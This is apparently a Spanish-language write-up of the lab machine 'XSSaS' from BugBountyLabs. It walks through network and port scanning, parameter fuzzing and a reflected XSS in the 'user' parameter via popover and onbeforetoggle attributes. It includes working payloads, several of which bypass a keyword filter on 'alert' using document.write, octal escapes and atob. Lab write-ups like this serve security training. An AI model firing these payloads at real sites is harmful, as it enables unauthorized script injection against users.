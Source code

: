 ```yaml
---
title: "XSSaS"
date: 2025-02-12 00:00:00 +0800
categories: writeups bugbountylabs
tags: xss writeup bugbountylabs linux
description: Writeup de la máquina XSSaS de BugBountyLabs.
image: ../assets/images/posts/2025-02-12-xssas/xssas.jpg
---
```


## Resumen de la resolución

**XSSaS** es una máquina **Linux** de dificultad **Insane (Experto)** de la plataforma de **BugBountyLabs**. En ella explotaremos un **XSS** a través parámetro **user** que le pasamos vía **GET**. Dicho parámetro se almacena en el atributo `value` del campo `input`. Finalmente, la inyección **XSS** se acontece gracias al atributo `popovertarget` usado en el `button` y al atributo `onbeforetoggle` y `popover` que inyectamos en el campo `input`.

___
## Enumeración

En primer lugar, realizaremos un barrido en la red para encontrar la **Dirección IP** de la máquina víctima, para ello usaremos el siguiente comando.

```bash
arp-scan -I ens33 --localnet
```

A continuación podemos ver la **Dirección IP**  ya que el **OUI** es **08:00:27**, correspondiente a una máquina virtual de **Virtual Box**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172108.png>)

Después le lanzaremos un **ping** para ver si se encuentra activa dicha máquina, además de ver si acepta la traza **ICM**. Comprobamos que efectivamente nos devuelve el paquete que le enviamos por lo que acepta la traza **ICMP**, gracias al **ttl** podremos saber si se trata de una máquina **Linux (TTL 64 )** y **Windows (TTL 128)**, y vemos que se trata de una máquina **Linux** pues cuenta con **TTL** próximo a 64 (**63**), además gracias al script **whichSystem.py** podremos conocer dicha información.
### Nmap

En segundo lugar, realizaremos un escaneo por **TCP** usando **Nmap** para ver que puertos de la máquina víctima se encuentra abiertos.

```bash
nmap -p- --open --min-rate 5000 -sS -v -Pn -n 172.17.0.2 -oG allPorts
```

Observamos como nos reporta que se encuentra abiertos los puertos **22 y 80**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212171753.png>)

___
### Puerto 80 - HTTP (Apache)

En primer lugar, nos dirigimos al servidor web y tras un buen rato intentando encontrar el vector de entrada veremos que al introducir el parámetro **user** en la **URL**, dicho valor se ve reflejado en el atributo `value` del campo `input`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172458.png>)

Es posible que no encontremos el parámetro **user**, por lo que alternativamente lo podríamos haber descubierto a través de un fuzzing de parámetros usando **Wfuzz** de la siguiente forma.

```bash
wfuzz -c -u "http://192.168.26.79/?FUZZ=test" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt --hh 548
```

Tal y como se aprecia abajo conseguimos descubrir el parámetro `user` de igual forma.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212175110.png>)

Una vez hemos descubierto el vector de entrada probaremos la siguiente inyección **XSS** usando este payload.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="><h1>test</h1>
```

Tal y como vemos a continuación, los caracteres `<` y `>` están siendo convertidos a `&lt;` y `&lt`, por lo que no podremos inyectar un **XSS**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172540.png>)

Tras revisar el código fuente nos llamará la atención el atributo `popovertarget` presente en el `button`. Por lo que buscando por internet daremos con el siguiente artículo [XSS popovertarget - Portswigger](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) donde explican como acontecer un **XSS** a partir de este atributo (`popovertarget`).

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172611.png>)

___
## Explotación
### **XSS**

Tras mirar el anterior artículo entenderemos como acontecer un **XSS** abusando del atributo `popovertarget`, en definitiva el payload es el siguiente.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="prompt(1)
```

Tal y como vemos a continuación conseguimos mostrar el cuadro del `prompt()`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172926.png>)

Usando el mismo payload que antes intentaremos mostrar una ventana de `alert()`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="alert(1)
```

Observamos que nos salta un mensaje de error ya que la palabra **alert** no está permitida.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212173018.png>)

Una forma de **bypasear** esta comprobación es usando la función `document.write()` tal que así.

> Destacar la importancia de **URL Encodear** los `+` a `%2B`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="document.write('<script>ale'%2B'rt(1)</script>')
```

Tal y como se aprecia en la siguiente captura de pantalla conseguimos mostrar la ventana de `alert()`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212174221.png>)

Tras ejecutar el anterior `alert()` no me detuve y seguí investigando sobre diferentes formas de **bypasearlo** y me encontré el siguiente artículo [XSS Bypass alert - Portswigger](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-script-code) donde pude extraer los siguientes payloads alternativos para ejecutar el `alert()`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="eval('a\154ert(1)')
```

```http
http://192.168.26.79/?user="id=x popover onbeforetoggle="eval(atob('YWxlcnQoMSk'));
```